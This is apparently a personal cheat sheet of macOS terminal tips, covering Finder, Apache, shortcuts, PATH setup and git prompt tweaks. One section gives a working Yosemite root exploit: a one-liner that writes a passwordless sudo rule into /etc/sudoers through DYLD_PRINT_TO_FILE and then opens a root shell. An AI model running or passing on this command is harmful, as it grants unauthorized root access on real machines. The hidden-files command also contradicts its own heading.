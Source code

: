 ```yaml
---
layout: default
title: OS X
---
```


## Always show hidden files: ##

{% highlight bash %}
defaults write com.apple.finder AppleShowAllFiles NO
{% endhighlight %}

## Start Apache on system startup: ##

{% highlight bash %}
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
{% endhighlight %}

## Keyboard shortcuts: ##

{% highlight bash %}
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
{% endhighlight %}

## Yosemite exploit for root access: ##

{% highlight bash %}
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
{% endhighlight %}

## Add mysql to terminal shell: ##

{% highlight bash %}
echo 'export PATH=/usr/local/mysql/bin:$PATH' >> ~/.bash_profile
. ~/.bash_profile
{% endhighlight %}

## Install file (e.g. composer.phar) globally: ##

{% highlight bash %}
sudo mv %file% /usr/local/bin/%file%
{% endhighlight %}

## Create symbolic link: ##

{% highlight bash %}
ln -s %file_path% %link_path%
{% endhighlight %}

## Install git bash-autocomplete: ##

{% highlight bash %}
curl https://raw.githubusercontent.com/git/git/master/contrib/completion/git-completion.bash -o ~/.git-completion.bash

# edit `.bash_profile` file:
vi ~/.bash_profile

# add below:
if [ -f ~/.git-completion.bash ]; then
  . ~/.git-completion.bash
fi
{% endhighlight %}

## Add git branch name to command prompt: ##

{% highlight bash %}
# edit `.bash_progfile` file:
vi ~/.bash_profile

# add below:
parse_git_branch() {
    git branch 2> /dev/null | sed -e '/^[^*]/d' -e 's/* \(.*\)/ (\1)/'
}
export PS1="\u@\h \W\[\033[32m\]\$(parse_git_branch)\[\033[00m\] $ "
{% endhighlight %}
